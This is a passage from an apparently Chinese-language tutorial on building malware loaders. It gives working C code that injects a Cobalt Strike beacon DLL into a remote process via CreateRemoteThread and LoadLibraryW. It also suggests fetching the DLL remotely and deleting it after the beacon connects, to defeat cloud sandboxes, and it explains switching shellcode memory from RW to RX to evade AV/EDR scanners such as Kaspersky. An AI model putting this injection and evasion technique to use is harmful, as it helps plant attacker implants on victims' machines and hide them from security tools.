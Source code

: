 6.需要用到LoadLibraryA

经典DLL注入到远程进程中，根据上面远程进程注入的知识，写出简单的demo

我们利用cs生成的dll文件上传到目标电脑上然后编译对应的exe,也就是说双文件落地的形式

即: cs上线的dll文件 dllinject.exe

```php
#include <Windows.h>
#include <stdio.h>

int main(int argc, char* argv[]) {
    HANDLE processHandle;
    PVOID remoteBuffer;
    wchar_t dllPath[] = TEXT("C:\\Users\\ning\\Desktop\\DLLinject\\cs.dll");
    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, DWORD(atoi(argv[1])));
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath,
  MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = 
  (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, 
  remoteBuffer, 0, NULL);
    CloseHandle(processHandle);
    return 0;
}
```

**那么我们不妨发散思维,我们可以远端加载dll文件进行注入,在目标上只留下dllinject.exe,同时在完成上线后**

**我们将远端的dll文件删除,这样云沙箱是不是就无法加载了?**

#### 6.RW+RX的内存

AV/EDR喜欢扫描具有RWX属性的内存区域,尤其是国外著名的卡巴斯基,其内存扫描的本质就是扫描内存中的RWX权限，所以我们使用RW+RX来规避

步骤:

1.VirtualAlloc申请可读可写的内存属性 **RW**

2.memcopy将shellcode拷贝到内存

3.VirtualProtect改变内存属性为**RX**

4.指针执行

那么下面我们来学习一下VirtualProtect

**VirtualProtect：可以用来改变内存属性**

```php
BOOL VirtualProtect(
  [in]  LPVOID lpAddress,
  [in]  SIZE_T dwSize,
  [in]  DWORD  flNewProtect,
  [out] PDWORD lpflOldProtect
);
```

